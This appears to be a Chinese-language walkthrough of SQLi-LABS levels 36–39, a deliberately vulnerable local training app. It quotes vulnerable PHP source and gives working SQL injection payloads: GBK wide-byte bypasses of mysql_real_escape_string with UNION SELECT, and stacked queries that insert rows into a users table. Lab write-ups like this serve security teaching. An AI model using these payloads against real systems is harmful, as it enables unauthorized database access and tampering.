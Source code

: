 

源代码： 

$uname = mysql_real_escape_string($uname1); 

$passwd= mysql_real_escape_string($passwd1); 

mysql_query("SET NAMES gbk"); 

@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1”; 

所以还是考虑宽字节注入 



http://127.0.0.1/sqli-labs/Less-36?id=111111%df' union select 1,user(),3 -- - 







##第37关 

Post 型，绕过mysql_real_escape_string()，同36关 

仍然使用宽字节注入，由于源码中的select 选择了两个字段，所以union select 也匹配两个字段 

uname=admin%df' union select 1,database() -- -&passwd=111...aaa&submit=Submit 



##第38关 

普通注入 

and '1'=‘1 // 一般使用此语句，主要是是闭合sql语句后单撇 

Payload: 

http://127.0.0.1/sqli-labs/Less-38?id=-11111'  union select 1,version(),3 ' 





#Page-3 (Stacked Injections)

SQLi-LABS Page-3 (Stacked Injections)

##第38关
虽然union select 可以搞定，但不是考察点。
重点在mysqli_multi_query()
mysqli_multi_query() 函数执行一个或多个针对数据库的查询。多个查询用分号进行分隔。

区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句；
而堆叠注入可以执行的是任意的语句。

payload
http://127.0.0.1/sqli-labs/Less-38?id=11111' ;insert into users (username,password) values ('zhangwuji','meichaofeng')-- -

##第39关
http://127.0.0.1/sqli-labs/Less-39?id=2 ; insert into users (username,password) values ('guojing','huangrong') -- -
